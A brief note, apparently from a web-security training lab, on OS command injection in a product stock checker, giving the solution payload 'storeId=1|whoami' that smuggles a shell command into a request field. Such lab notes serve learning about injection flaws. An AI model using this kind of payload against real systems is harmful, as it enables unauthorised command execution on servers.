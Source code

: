 ## OS command injection, simple case
OS command injection vulnerability in the product stock checker.
soln: productId=1 &storeId=1|whoami